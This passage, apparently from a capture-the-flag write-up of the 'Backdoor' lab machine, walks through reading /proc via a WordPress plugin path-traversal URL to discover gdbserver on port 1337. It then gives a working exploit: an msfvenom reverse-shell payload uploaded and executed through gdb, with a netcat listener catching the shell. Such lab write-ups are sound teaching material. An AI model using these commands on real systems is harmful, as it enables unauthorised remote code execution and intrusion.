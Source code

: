 Looking at what gdbserver is doing via the **cmdline** file associated with the gdbserver PID:

```
http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/proc/92258/cmdline
```

Shows us that gdbserver is running on **port 1337**. That explains what that is from our nmap scan earlier. Nmap was not able to tell us what exactly it was.

```
gdbserver--once0.0.0.0:1337/bin/trueuser@Backdoor:/proc/92258
```


<br>

## System Access

I do a search for gdbserver exploits and find [**this Hacktricks link**](https://book.hacktricks.xyz/pentesting/pentesting-remote-gdbserver) explaining how you can exploit **gdbserver** to gain a shell. I run the steps below replacing the LHOST and target extended remote lines with the correct IP addresses and get a reverse shell back:

```
# Trick shared by @B1n4rySh4d0w
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 PrependFork=true -f elf -o binary.elf

chmod +x binary.elf

gdb binary.elf

# Set remote debuger target
target extended-remote 10.10.10.11:1337

# Upload elf file
remote put binary.elf binary.elf

# Set remote executable file
set remote exec-file /home/user/binary.elf

# Execute reverse shell executable
run

# You should get your reverse-shell
```

```
└─$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [MY IP] from (UNKNOWN) [10.10.11.125] 52742
ls
binary.elf
user.txt
```
